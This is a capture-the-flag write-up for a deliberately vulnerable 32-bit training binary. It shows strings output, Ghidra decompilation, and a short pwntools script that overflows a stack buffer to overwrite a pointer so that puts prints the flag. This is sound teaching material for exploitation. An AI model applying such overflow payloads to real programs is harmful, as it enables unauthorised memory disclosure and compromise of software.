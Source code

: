 # tw17_justdoit

[Link to binary](https://github.com/guyinatuxedo/nightmare/blob/master/modules/04-bof_variable/tw17_justdoit/just_do_it)

---

```
~/Downloads > ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
password123
Invalid Password, Try Again!
~/Downloads >
```

Fortunately enough, `strings` finds the password for us:

```
[...]
Correct Password, Welcome!
Invalid Password, Try Again!
P@SSW0RD
flag.txt
file open error.
[...]
```

```
~/Downloads > echo -n "P@SSW0RD" | ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

The `-n` is to prevent `echo` from adding a newline to the end which is not considered part of the password by the executable.

But this isn't actually the flag, it's just a password. Let's fire Ghidra up.

```
undefined4 main(void)

{
  char *pcVar1;
  int iVar2;
  char local_28 [16];
  FILE *local_18;
  char *local_14;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0,2,0);
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  local_14 = failed_message;
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar1 = fgets(flag,48,local_18);
  if (pcVar1 == (char *)0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  pcVar1 = fgets(local_28,32,stdin);
  if (pcVar1 == (char *)0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(local_28,PASSWORD);
  if (iVar2 == 0) {
    local_14 = success_message;
  }
  puts(local_14);
  return 0;
}
```

The binary reads 48 bytes from `flag.txt` and put that in a global called `flag`. Can we divert a `puts` call to print it?

Well, do you see that call `puts(local_14)`? We can do a buffer overflow on `local_28` and write an arbitrary address into `local_14`. We just have to skip over a `FILE*` which, being a pointer and being this executable 32bits, it's 4 bytes long.

```python
from pwn import *

p = process("./just_do_it")
p.sendline((16+4) * b" " + p32(0x0804a080))
print(p.recvall(1).decode())
```

`0x0804a080` is the address of the `flag` global. I got that from Ghidra.

```
~/Downloads > python pwn_just_do_it.py 
[+] Starting local process './just_do_it': pid 24985
[+] Receiving all data: Done (91B)
[*] Process './just_do_it' stopped with exit code 0 (pid 24985)
Welcome my secret service. Do you know the password?
Input the password.
Dear{just_pwn_it}
```
